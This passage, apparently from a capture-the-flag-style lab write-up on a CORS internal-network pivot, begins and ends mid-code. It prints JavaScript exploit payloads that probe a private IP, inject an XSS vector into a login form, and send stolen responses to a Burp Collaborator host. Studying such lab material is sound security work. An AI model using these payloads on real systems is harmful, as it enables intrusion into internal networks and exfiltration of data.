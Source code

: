     location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
  }
  ))
  .catch(e => {
  if(q.length) {
    q.shift()(wait);
  }
  });
  setTimeout(x=>{
  controller.abort();
  if(q.length) {
    q.shift()(wait);
  }
  }, wait);
}
</script>
 ````
Put the code on the exploit server then store it and deliver exploit to victim 
 see our burp collaborator
 
  ![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/CORS/CORS-vulnerability-with-internal-network-pivot-attack-1.png)

we get the privet IP
> 192.168.0.250:8080

we will use the 192.168.0.250:8080 as a proxy to find a xss on intern network and recive the response on burpcollaborator [blind ssrf].

Now we try to know the username 
 
 clean the code from body and put this code
 ````
<script>
function xss(url, text, vector) {
  location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
  fetch(url).then(r=>r.text().then(text=>
  {
    xss(url, text, '"><img src='+collaboratorURL+'?H3X0S3forXSS=0>');
  }
  ))
}

fetchUrl("http://192.168.0.89:8080", "http://0klpcpmyumttuob8cbetz6ptkkqbe0.burpcollaborator.net");
</script>
````
And repeat the steps 

  ![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/CORS/CORS-vulnerability-with-internal-network-pivot-attack-2.png)

Repeat the steps 
````
 <script>
function xss(url, text, vector) {
 location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}
function fetchUrl(url, collaboratorURL){
 fetch(url).then(r=>r.text().then(text=>